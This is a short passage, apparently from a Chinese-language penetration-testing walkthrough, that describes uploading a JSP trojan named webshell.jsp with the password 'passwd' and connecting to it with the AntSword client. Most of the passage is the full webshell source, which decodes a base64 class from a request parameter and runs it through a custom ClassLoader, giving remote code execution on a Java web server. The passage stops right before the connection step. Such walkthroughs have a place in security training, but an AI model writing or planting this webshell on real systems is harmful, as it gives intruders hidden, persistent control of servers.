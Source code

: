 通过中国蚁剑连接，这里我重新生成了一个`webshell.jsp`木马，密码为`passwd`，按照上述方式重新上传

```jsp
<%!
    class U extends ClassLoader {
        U(ClassLoader c) {
            super(c);
        }
        public Class g(byte[] b) {
            return super.defineClass(b, 0, b.length);
        }
    }
 
    public byte[] base64Decode(String str) throws Exception {
        try {
            Class clazz = Class.forName("sun.misc.BASE64Decoder");
            return (byte[]) clazz.getMethod("decodeBuffer", String.class).invoke(clazz.newInstance(), str);
        } catch (Exception e) {
            Class clazz = Class.forName("java.util.Base64");
            Object decoder = clazz.getMethod("getDecoder").invoke(null);
            return (byte[]) decoder.getClass().getMethod("decode", String.class).invoke(decoder, str);
        }
    }
%>
<%
    String cls = request.getParameter("passwd");
    if (cls != null) {
        new U(this.getClass().getClassLoader()).g(base64Decode(cls)).newInstance().equals(pageContext);
    }
%>
```

* 使用蚁剑连接：

